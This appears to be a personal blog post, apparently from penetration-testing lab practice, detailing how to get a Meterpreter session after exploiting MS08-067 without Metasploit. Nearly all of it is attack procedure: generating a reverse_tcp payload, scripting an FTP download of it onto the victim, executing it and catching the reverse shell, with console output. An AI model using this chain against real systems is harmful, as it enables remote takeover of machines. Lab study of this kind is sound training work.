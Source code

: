 ```yaml
---
published: true
---
```




## Some notes on getting Meterpreter up and running post exploitation

I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.  

I start the ftp service on my attacking machine

    service pure-ftpd start

I created a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory

    msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
    
I exploit MS08-067 refer to 

http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/

FTP is installed on the server.  Because FTP is not interactive I create a text file to pass to the ftp application.  I issue the following commands:

    echo open 192.168.30.36> ftp.txt
    echo your_username>> ftp.txt
    echo your_password>> ftp.txt
    echo binary>> ftp.txt
    echo get iambad.exe>> ftp.txt
    echo bye>> ftp.txt

Victim:  Execute the ftp command passing the ftp.txt as a parameter

    ftp -s:ftp.txt

Attacker:  Start msfconsole on attacking machine

    msfconsole
    
Attacker:  Start multi/handler, set LHOST, set LPORT, and start handler

    msf > use exploit/multi/handler
    msf exploit(handler) > set LHOST 192.168.30.36
    msf exploit(handler) > set LPORT 443
    msf exploit(handler) > run
    [*] Started reverse handler on 192.168.30.36:443 
    [*] Starting the payload handler...
    
Victim:  Execute payload

    iambad.exe

Attacker:  Meterpreter session obtained

    [*] Sending stage (770048 bytes) to 192.168.31.205
    [*] Meterpreter session 1 opened (192.168.30.36:443 -> 192.168.31.205:2707) at 2015-06-05 08:06:04 -0400
